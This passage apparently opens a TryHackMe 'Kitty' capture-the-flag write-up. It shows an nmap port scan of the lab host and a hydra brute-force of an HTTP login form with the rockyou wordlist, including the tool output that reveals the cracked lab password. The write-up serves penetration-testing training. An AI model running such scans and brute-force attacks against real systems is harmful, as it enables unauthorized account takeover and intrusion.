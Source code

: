 # #1 introduction
<img width="647" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/0b9b87b9-98fb-4b13-ae10-fbfac330dd87">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx kitty.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- kitty.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)
let's use hydra to try to bruteforce a HTTP account named kitty
```
┌──(parallels㉿kali)-[~]
└─$ hydra -I -l kitty -P /usr/share/wordlists/rockyou.txt kitty.thm http-post-form "/index.php:username=kitty&password=^PASS^:Invalid username"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-12 13:39:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://kitty.thm:80/index.php:username=kitty&password=^PASS^:Invalid username
[STATUS] 2500.00 tries/min, 2500 tries in 00:01h, 14341899 to do in 95:37h, 16 active
[80][http-post-form] host: kitty.thm   login: kitty   password: sleepy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-12 13:40:27
```

